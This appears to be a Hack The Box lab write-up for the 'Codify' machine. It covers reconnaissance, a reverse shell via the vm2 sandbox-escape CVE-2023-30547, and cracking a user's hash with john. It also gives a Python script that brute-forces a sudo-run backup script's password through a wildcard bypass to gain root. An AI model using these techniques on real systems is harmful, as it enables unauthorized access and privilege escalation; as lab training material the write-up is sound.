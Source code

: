 <h2>CODIFY HTB</h2>


### NMAP SCAN

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8a6e7234-f883-4835-831b-61e6e38cfb69)

``Add codify.htb to /etc/hosts file``

visiting the url shows our target is a Node.js editor

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/43820d8b-1120-41a7-9fef-eeb654420e65)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e5750d5-a53c-4997-939d-0ea60b9aba08)

And yeah we can see it's running `vm2 version 3.9.16` which is vulnerable to ``Remote code execution`` ``CVE-2023-30547``

so, a quick google search gave the [exploit](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

we can easily gain reverse shell by modifying the execSync funtion and setting our netcat listener

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c5e6cc05-bfa4-45ee-8364-6f10b32018b9)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2735706b-e8f3-49ad-958a-6900386949fc)

### PRIVILEGE ESCALATION

Trying to read the files in joshua directory and permission was denied

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2ab2583d-61ff-42f2-8401-627c24c3256f)

so, there's a database file in the /var/www/contact directory which contains the user joshua password hash

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/764131ac-3120-402d-9083-2bb41ded93be)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3120ca6f-a3d2-4699-8cc1-cfe24bd69a2a)

And yeah i was able to crack the hash using john 

```john --wordlist=/usr/share/wordlists/rockyou.txt hash```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/30ab44ed-694d-4e19-b35f-726623d393ab) 

we can now ssh into the box as joshua to get the user flag and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a1c9a152-907d-49bc-9c7f-eb783586c15d)

running `sudo -l` shows we can run the mysql-backup script as sudo

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a7fdc197-aff9-45e0-a397-c0a02c46d0a2)

and yeah we can guess or brute force the first password character followed by * to bypass the password prompt. and we can also brute force every character of the password till we find all characters of the password.

```
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

which i was able to get the root password and su as root

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e82c4557-2037-4e71-b037-ee45d145e655)

so, cat the root flag

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/97e615ce-991b-4153-83ce-c03ba7d63c69)



Thanks.











